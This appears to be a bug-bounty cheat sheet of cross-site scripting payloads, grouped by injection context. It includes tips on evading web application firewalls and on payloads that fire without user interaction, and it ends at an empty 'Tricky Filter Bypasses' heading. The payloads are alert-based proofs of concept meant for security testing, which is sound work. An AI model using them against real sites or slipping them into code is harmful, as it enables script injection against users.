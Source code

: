 # Advanced XSS Cheatsheet: Unique & Effective Payloads for Bug Hunters

## Quick Reference Payloads by Context

### HTML Context (Between Tags)
```javascript
<img src=x onerror=alert(document.domain)>
<svg onload=alert(document.domain)>
<body onpageshow=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
<div id="x" tabindex="1" onfocus="alert(document.domain)"></div><script>document.getElementById('x').focus()</script>
```
*Pro tip: Use lesser-known event handlers like `onpageshow` to bypass WAFs that only block common ones like `onload`.*

### HTML Attribute Context
```javascript
" autofocus onfocus=alert(document.domain) "
" onfocus=alert(document.domain) autofocus x="
"><img src=x onerror=alert(document.domain)><"
"onmouseover="alert(document.domain)"
```
*Pro tip: Combining attributes like `autofocus` with event handlers creates self-executing payloads without user interaction.*

### JavaScript Variable Context
```javascript
// For: var input = "USER-INPUT";
";alert(document.domain);//
\";alert(document.domain);//
'-alert(document.domain)-'
</script><img src=x onerror=alert(document.domain)>
${alert(document.domain)}    // For template literals
```
*Pro tip: Always try to break out of the current context first, then execute your payload.*

### URL Parameter Context
```javascript
javascript:alert(document.domain)
javascript:alert`document.domain`
javascript:confirm(document.domain)
data:text/html,<img src=x onerror=alert(document.domain)>
```
*Pro tip: JavaScript protocol handlers often bypass filters that look for script tags.*

## Tricky Filter Bypasses
